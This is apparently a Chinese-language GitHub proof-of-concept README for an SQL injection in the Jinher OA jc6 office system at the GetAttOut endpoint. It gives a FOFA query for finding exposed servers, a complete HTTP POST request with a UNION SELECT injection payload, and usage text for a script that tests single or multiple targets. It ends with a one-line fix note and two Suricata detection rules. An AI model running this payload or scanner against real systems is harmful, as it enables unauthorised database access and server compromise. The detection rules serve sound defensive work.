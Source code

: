 ### 产品简介  
金和OA协同办公管理系统j6软件是一种综合性的协同办公解决方案，旨在提高企业内部的协作效率和工作效率。它提供了一系列功能和工具，帮助组织进行任务管理、日程安排、文件共享、团队协作和沟通等方面的工作。  

### 漏洞概述  
金和 OA jc6 /jc6/JHSoft.WCF/TEST/GetAttOut接口处存在SQL注入漏洞，攻击者不仅可以利用 SQL 注入漏洞获取数据库中的敏感信息，还可以向服务器中写入恶意木马或者执行命令远程下载后门，获取服务器系统权限。  

### 指纹识别  
fofa: app="Jinher-OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_jc6_GetAttOut_SQL_injection/1.png)
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_jc6_GetAttOut_SQL_injection/2.png)

### 漏洞利用  
```
poc:
POST /jc6/JHSoft.WCF/TEST/GetAttOut HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 149

1' union select null,CHAR(118)+CHAR(117)+CHAR(108)+ISNULL(CAST(222*3 AS NVARCHAR(4000)),CHAR(32))+CHAR(118)+CHAR(117)+CHAR(108),null,null,null,null--
```

### 测试和利用脚本  
```
python3 Jinhe_OA_jc6_GetAttOut_SQL_injection.py -h
usage: jinhe_oa.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA jc6 GetAttOut SQL injection vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_jc6_GetAttOut_SQL_injection.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_jc6_GetAttOut_SQL_injection.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA jc6 GetAttOut SQL injection vulnerability."; flow:established,to_server; flowbits:set,Jinhe_OA_jc6_GetAttOut_SQL_injection; content:"post";http_method;nocase; content:"/jc6/JHSoft.WCF/TEST/GetAttOut";http_uri;fast_pattern;nocase; content:"'";nocase;http_client_body; content:"--";nocase;http_client_body;distance:0; pcre:"/(?:S(?:HOW.+(?:C(?:HARACTER.+SET|UR(DATE|TIME))|(?:VARI|T)ABLES)|ELECT.+(?:FROM|USER))|U(?:NION.+SELEC|PDATE.+SE)T|DELETE.+FROM|INSERT.+INTO)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Jinhe_OA_jc6_GetAttOut_SQL_injection; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:19; rev:1;)
alert http any any -> any any (msg:"Jinhe OA jc6 GetAttOut SQL injection vulnerability success."; flow:established,from_server; flowbits:isset,Jinhe_OA_jc6_GetAttOut_SQL_injection; content:"200";http_stat_code; content:"attOEndTime";http_server_body;nocase; content:"attOBeginTime";http_server_body;nocase; content:"attOReason";http_server_body;nocase; content:"success";http_server_body;nocase; content:"1";http_server_body;nocase;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Jinhe_OA_jc6_GetAttOut_SQL_injection; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:20; rev:1;)
```
